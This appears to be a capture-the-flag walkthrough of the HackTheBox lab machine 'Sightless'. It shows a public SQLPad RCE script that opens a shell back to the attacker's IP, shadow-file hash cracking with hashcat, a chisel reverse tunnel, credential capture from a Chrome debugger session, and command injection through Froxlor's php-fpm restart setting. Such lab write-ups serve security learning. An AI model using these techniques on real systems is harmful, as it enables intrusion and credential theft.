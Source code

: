 ```yaml
---
title: "Sightless Walkthrough(HTB)"
date: 2025-03-20
draft: true 
description: "a description"
tags: ["Easy", "Linux", "HTB", "Hacking", "Web", "Walkthrough"]
---
```

## Reconnaissance #Linux 
- Got three ports open
- ![[Pasted image 20241221001932.png]]
- FTP, SSH, web server
- The page running on `nginx/1.18.0`
## Enumeration
- The web had a Slightless Titled page while scrolling through I found a link button which redirected to `sqlpad.sightless.htb` website.
- I quickly added it hosts and visited it.
- Found  RCE from google in single search : https://github.com/shhrew/CVE-2022-0944.git
## Exploitation
- By executing it got shell
```
python3 main.py http://sqlpad.sightless.htb/ 10.10.14.12 6001
```
- There was a sqlite file in the current working  directory but there isn't any way to transfer it to our machine cause no versions of python installed
- Then I got to know that this is a docker image that we are in
- ![[Pasted image 20241221022335.png]]
- Cause it is weird to have this directory here.
- Anyway from `/etc/passwd`got know that there are two users
- ![[Pasted image 20241221022519.png]]
- From shadow I got the hash of user michael for cracking. Ignore the root hash i am pretty sure it will waste our time.
- ![[Pasted image 20241221022725.png]]
- After finding the module cracked it with my goto tool
```
 hashcat -m 1800 hash.txt /usr/share/wordlists/rockyou.txt
```
- then logged in via SSH
- Got user flag
- ![[Pasted image 20241221023004.png]]
## Privilege Escalation
- Done some enumeration but `ss -tunlp` looked sus
- Too many ports don't ya think
- ![[Pasted image 20241221023121.png]]
- So I decided to forward all the weird looking ports to my machine
- On my machine
```
chisel server -p 7001 --reverse
```
- On the target machine
```
./chisel client 10.10.14.12:7001 R:3306:localhost:3306 R:44771:localhost:44771 R:8080:localhost:8080 R:43047:localhost:43047 R:41049:localhost:41049 R:3000:localhost:3000 R:33060:localhost:33060
```
- It seems that port 8080 is running Froxlor, which required credentials to login
- All the remaining ports seems to suspicious cause most are non-http ones
- Some of the ports are using chrome debugger internally to do some tasks.
- So I opened chrome and navigated to here chrome://inspect/#devices and added all the ports using configure.
- ![[Pasted image 20241221023839.png]]
- Got some hits. I clicked inspect and saw it automatically logging into Froxlor with credentials often
- From the Network tab, got auth request and got the password and username.
- ![[Pasted image 20241221024137.png]]
- Used those creds and got into Froxlor
- While hanging around there discovered a interesting endpoint that could lead to command injection
- ![[Pasted image 20241221024348.png]]
- Created a New PHP version from PHP-FPM versions
- In the php-fpm restart command filled with `cp /root/root.txt /home`
- Then went to settings and then restarted the php-fpm
- After 3-5 min I got the file in the home directory but we need permissions so again using the same method modified the command to `chmod 777 /home/root.txt`
- ![[Pasted image 20241221024823.png]]
- Got the user flag. Then realized from the start I should've changed permissions for root directory itself
- ![[Pasted image 20241221024851.png]]

